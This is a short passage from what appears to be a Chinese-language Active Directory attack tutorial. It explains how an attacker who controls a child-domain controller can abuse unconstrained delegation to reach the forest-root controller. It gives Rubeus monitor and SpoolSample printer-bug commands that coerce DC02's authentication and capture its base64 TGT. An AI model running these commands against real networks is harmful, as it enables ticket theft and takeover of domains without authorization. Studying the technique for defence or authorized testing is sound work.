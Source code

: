 ![截图](4ca8e6ff41d4c74b2a2febb15ed209f7.png)

### 4.利用非约束性委派

域控制器默认配置了非约束性委派的选项。因此当我们控制了子域的域控制器后，我们可以利用子域的域控制器来进行非约束性委派的攻击。

– 子域域控：SH-DC01 

– 要攻击的根域域控：DC02

首先在子域域控制器上执行如下命令进行监听来自 DC02 的票据

```
Rubeus.exe monitor /interval:1 /filteruser:DC02$ /nowrap
```

然后在子域域控制器上执行如下命令**使用打印机服务漏洞攻击林根域域控DC02**，使其强制回连认证我们的子域域控制器 sh-DC01。

```
SpoolSample.exe DC02 sh-DC01
```

攻击完成后可以看到我们的 Rubeus 已经收到来自 DC02 的 base64 的 TGT认购权证了。

![截图](6ec96b0385671962501a4512a8ea6908.png)
